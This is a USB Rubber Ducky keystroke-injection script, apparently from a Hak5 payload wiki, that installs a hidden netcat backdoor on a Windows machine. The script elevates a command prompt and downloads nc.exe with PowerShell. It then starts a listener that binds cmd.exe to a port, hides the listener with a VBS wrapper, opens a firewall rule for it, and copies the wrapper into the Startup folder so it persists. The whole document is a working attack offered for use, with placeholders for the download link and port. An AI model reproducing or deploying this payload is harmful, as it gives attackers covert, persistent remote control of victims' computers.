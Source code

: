 

REM Info and source: https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload-Netcat-Reverse-Shell REM Title: Netcat Reverse Shell REM Author: Kanishk Singh REM Version: 1

REM Change the following details: REM [NETCAT_DOWNLOAD_LINK]: Your Netcat download link. REM [PORT]: The port on the target machine you want netcat to listen on. REM Directory: Use something other than %TEMP% if you want to.

DELAY 200 REM --> Minimize all windows WINDOWS d GUI r DELAY 500 STRING powershell Start-Process cmd -Verb RunAs ENTER DELAY 1500 ALT y DELAY 500 STRING cd %TEMP% ENTER

REM --> Kills already running Netcat instance (if any) STRING TASKKILL /im nc.exe /f ENTER REM --> Delete nc.exe file if it already exists STRING erase /Q nc.exe ENTER REM --> Delete Start batch file if it already exists STRING erase /Q Start.bat ENTER REM --> Delete Invisible.vbs in temp folder, if it already exists STRING erase /Q invisible.vbs ENTER REM --> Delete invisible.vbs file in Startup if it already exists STRING erase /Q "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\invisible.vbs" ENTER DELAY 500

REM --> Downloads NetCat STRING powershell (new-object System.Net.WebClient).DownloadFile('http://[NETCAT_DOWNLOAD_LINK]/nc.exe','nc.exe') ENTER DELAY 500

REM --> Creates a batch file to start listening STRING copy con Start.bat ENTER STRING nc -lp [PORT] -vv -e cmd.exe -L ENTER CONTROL z ENTER

REM --> Starts batch file invisibly STRING copy con invisible.vbs ENTER STRING Set WshShell = CreateObject("WScript.Shell" ) ENTER STRING WshShell.Run chr(34) & "%TEMP%\Start.bat" & Chr(34), 0 ENTER STRING Set WshShell = Nothing ENTER CONTROL z ENTER REM --> Add netcat to allowed programs list, enabling it to communicate through the firewall seamlessly STRING netsh advfirewall firewall add rule name="Netcat" dir=in action=allow program="%TEMP%\nc.exe" enable=yes ENTER STRING start invisible.vbs ENTER DELAY 100

REM --> Copies invisible.vbs to startup folder for persistence STRING copy "invisible.vbs" "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" ENTER REM --> Kills CMD while nc.exe continues running in background, remove Ducky after CMD closes STRING exit ENTER
 